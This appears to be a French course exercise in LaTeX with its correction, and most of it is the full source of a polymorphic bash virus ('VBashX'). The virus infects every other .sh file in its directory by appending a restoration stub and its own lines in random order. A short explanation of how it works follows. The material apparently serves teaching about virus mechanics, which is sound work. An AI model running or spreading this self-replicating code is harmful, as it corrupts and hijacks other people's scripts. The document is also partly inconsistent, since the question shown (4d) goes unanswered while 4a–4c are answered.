 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet VBashX]
\begin{enumerate}
\item[\textbf{4d)}] Parmi les 3 stratégies de Phase 2, lesquelles fonctionnent encore avec le polymorphisme ? Justifier.
\end{enumerate}

\begin{correction}

\textbf{4a+4b)} Le virus complet avec polymorphisme par réordonnancement :
\begin{lstlisting}[title=vbashx\_phase4.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Restoration --- VBX_7k9Pz
REST_SIZE=11
LI=16
VIRUS_SIZE=$(($REST_SIZE + $LI))
TMP=".vbx_tmp.sh"
echo "#!/bin/bash" > $TMP
echo "SRC=\"$0\"" >> $TMP
nb=1; while [ $nb -le $LI ]; do
grep "#@${nb}#" "$0" >> $TMP
nb=$(($nb + 1)); done
chmod +x $TMP && ./$TMP; rm -f $TMP; exit 0
MARKER="VBX_7k9Pz" #@1#
for f in *.sh; do #@2#
if [ "$(basename "$f")" != "$(basename "$SRC")" ]; then #@3#
if [ -z "$(grep "$MARKER" "$f")" ]; then #@4#
REST_S=11; LI_S=16; VS=$(($REST_S + $LI_S)) #@5#
tail -n $VS "$SRC" | head -n $REST_S >> "$f" #@6#
r=$(( ($RANDOM % 16) + 1 )) #@7#
n=1 #@8#
while [ $n -le $LI_S ]; do #@9#
grep "#@${r}#" "$SRC" >> "$f" #@10#
r=$(( ($r * 3) % 17 )) #@11#
n=$(($n + 1)) #@12#
done #@13#
fi #@14#
fi #@15#
done #@16#
\end{lstlisting}

\textbf{Explication du code :}
\begin{itemize}
    \item \textbf{Lignes 3--13} (code de restauration, non tagué) : extrait les 16 lignes taguées dans l'ordre (1, 2, \ldots, 16), les écrit dans \texttt{.vbx\_tmp.sh} avec le chemin source, exécute ce fichier, puis termine par \texttt{exit 0}.
    \item \textbf{Lignes 14--29} (code d'infection, tagué \texttt{\#@1\#} à \texttt{\#@16\#}) : ces lignes sont en ordre quelconque dans le fichier mais le code de restauration les remet en ordre avant exécution. Elles vérifient la surinfection, copient le code de restauration dans la cible, puis ajoutent les lignes taguées dans un ordre aléatoire via la formule $r \leftarrow (r \times 3) \bmod 17$.
\end{itemize}

\textbf{4c)} En comparant deux fichiers infectés, on constate que les lignes taguées sont dans un \textbf{ordre différent} (le germe aléatoire \texttt{\$RANDOM} est différent à chaque exécution). Le code de restauration, en revanche, est \textbf{identique} dans tous les fichiers infectés.


\end{correction}
\end{exercice}
\end{document}
